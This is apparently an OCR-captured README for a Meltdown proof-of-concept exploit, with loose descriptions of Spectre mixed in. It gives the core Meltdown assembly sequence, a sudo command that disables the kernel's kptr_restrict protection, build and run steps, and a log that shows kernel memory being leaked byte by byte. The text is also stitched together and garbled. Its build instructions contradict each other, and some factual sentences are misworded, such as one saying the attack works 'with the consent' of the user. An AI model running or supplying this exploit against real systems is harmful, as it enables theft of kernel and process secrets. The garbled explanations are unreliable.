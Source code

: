 INTEL PROCESSOR SPECTRE EXPLOIT SOURCE CODE -  Spectre-Meltdown.c

Build with: cc Spectre-Meltdown.c  and run with ./output.o


Spectre breaks the isolation between different applications. It allows an attacker to trick error-free programs, which follow best practices, into leaking their secrets. In fact, the safety checks of said best practices actually increase the attack surface and may make applications more susceptible to Spectre

Spectre is slightly different from Meltdown. This is so because it can allow hackers to fool the applications (even the stable versions of the respective application) running on a machine to give up secret information from the Kernal module of the operating system to the hacker with the consent or knowledge of the user.





# MELTDOWN EXPLOIT 
INTEL PROCESSOR MELTDOWN EXPLOIT SOURCE CODE"



The Intel Processor core instruction sequence of Meltdown: -

; rcx = kernel address

; rbx = probe array

retry:

mov al, byte [rcx]

shl rax, 0xc

jz retry

mov rbx, qword [rbx + rax]



Meltdown breaks the most fundamental isolation between user applications and the operating system. This attack allows a program to access the memory, and thus also the secrets, of other programs and the operating system.

This vulnerability would allow malicious attacks to take place when a hacker could break the differentiating factor between the applications run by the user and the Core Memory of the Computer.

Speculative optimizations execute code in a non-secure manner leaving data
traces in microarchitecture such as cache.

Refer to the paper by Lipp et. al 2017 for details: https://meltdownattack.com/meltdown.pdf.

Can only dump `linux_proc_banner` at the moment, since requires accessed memory
to be in cache and `linux_proc_banner` is cached on every read from
`/proc/version`. Might work with `prefetch`.


Because your system may be preventing the program from reading kernel symbols in /proc/kallsyms due to /proc/sys/kernel/kptr_restrict set to 1. The following command will do the tricky:

sudo sh -c "echo 0 > /proc/sys/kernel/kptr_restrict"


Build with `make`, run with `./run.sh`.

Ref. Breaking kernel Address Space Layout Randomization	with Intel TSX:
https://www.blackhat.com/docs/us-16/materials/us-16-Jang-Breaking-Kernel-Address-Space-Layout-Randomization-KASLR-With-Intel-TSX.pdf

Can't defeat KASLR yet, so you may need to enter your password to find
`linux_proc_banner` in the `/proc/kallsyms` (or do it manually).

Flush+Reload and target array approach taken from spectre paper https://spectreattack.com/spectre.pdf
implemented following clues from https://cyber.wtf/2017/07/28/negative-result-reading-kernel-memory-from-user-mode/.

Pandora's box is open.

Result:
```
$ make
cc -O2 -msse2   -c -o meltdown.o meltdown.c
cc   meltdown.o   -o meltdown
$ ./run.sh 
looking for linux_proc_banner in /proc/kallsyms
protected. requires root
+ find_linux_proc_banner /proc/kallsyms sudo
+ sudo awk 
	/linux_proc_banner/ {
		if (strtonum("0x"$1))
			print $1;
		exit 0;
	} /proc/kallsyms
+ linux_proc_banner=ffffffffa3e000a0
+ set +x
cached = 29, uncached = 271, threshold 88
read ffffffffa3e000a0 = 25 %
read ffffffffa3e000a1 = 73 s
read ffffffffa3e000a2 = 20  
read ffffffffa3e000a3 = 76 v
read ffffffffa3e000a4 = 65 e
read ffffffffa3e000a5 = 72 r
read ffffffffa3e000a6 = 73 s
read ffffffffa3e000a7 = 69 i
read ffffffffa3e000a8 = 6f o
read ffffffffa3e000a9 = 6e n
read ffffffffa3e000aa = 20  
read ffffffffa3e000ab = 25 %
read ffffffffa3e000ac = 73 s
read ffffffffa3e000ad = 20  
read ffffffffa3e000ae = 28 (
read ffffffffa3e000af = 62 b
read ffffffffa3e000b0 = 75 u
read ffffffffa3e000b1 = 69 i
read ffffffffa3e000b2 = 6c l
read ffffffffa3e000b3 = 64 d
read ffffffffa3e000b4 = 64 d
read ffffffffa3e000b5 = 40 @
VULNERABLE
VULNERABLE ON
4.10.0-42-generic #46~16.04.1-Ubuntu SMP Mon Dec 4 15:57:59 UTC 2017 x86_64
processor	: 0
vendor_id	: GenuineIntel
cpu family	: 6
model		: 158
model name	: Intel(R) Core(TM) i7-7700HQ CPU @ 2.80GHz
stepping	: 9
microcode	: 0x5e
cpu MHz		: 3499.316
cache size	: 6144 KB
physical id	: 0
```

# Does not work

If it compiles but fails with `Illegal instruction` then either your hardware
is very old or it is a VM. Try compiling with:

```shell
$ make CFLAGS=-DHAVE_RDTSCP=0 clean all
```


